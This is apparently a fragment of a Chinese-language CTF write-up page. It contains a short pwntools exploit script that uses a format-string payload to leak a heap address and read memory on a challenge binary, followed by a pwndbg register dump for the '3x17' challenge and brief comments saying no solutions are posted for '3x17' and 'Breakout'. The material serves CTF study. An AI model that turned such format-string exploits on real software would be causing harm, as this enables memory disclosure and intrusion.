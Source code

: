 ```python
add("T",2)#1
add("nier",1,"%p%p%p%p%p|%s|")#2
play(2)
cmd(1)
p.readuntil("|")
heap=u64(p.readuntil("|")[:-1].ljust(8,'\x00'))
log.warning(hex(heap))
aim=0x605610-0x605350+heap-0x10
cmd(2)
p.sendafter("Content :","%p%p%p%p%p%p%p%p%p%p%p%p%s%p%p%p"+p64(aim))
#gdb.attach(p,"b *0x00000000040194B")
cmd(1)
p.interactive()
```

# 3x17
```python

Breakpoint 1, 0x0000000000402988 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 RAX  0x2
 RBX  0x1
 RCX  0x1
 RDX  0x402960 ◂— push   rbp
 RDI  0x0
 RSI  0x0
 R8   0x7ffe4432ad17 ◂— 0x4b701800
 R9   0x0
 R10  0x495740 ◂— 0x100000000
 R11  0x246
 R12  0x4b7100 —▸ 0x4b98e0 ◂— 0x0
 R13  0x1
 R14  0x4b98e0 ◂— 0x0
 R15  0x1
 RBP  0x4b40f0 —▸ 0x401b00 ◂— cmp    byte ptr [rip + 0xb77d9], 0
 RSP  0x7ffe4432acd0 —▸ 0x7ffe4432ad30 —▸ 0x4028d0 ◂— push   r15
 RIP  0x402988 ◂— call   qword ptr [rbp + rbx*8]
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x402988    call   qword ptr [rbp + rbx*8]
```
# 3x17
想破脑袋想不出...问题在exit内...现在做出来的人比较少先不放wp了..


# Breakout
挺有趣的一题 不允许 modify heap以外的空间 
远端和本地有些玄学可以试试输入无用的指令
exp就不放上来了.


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert
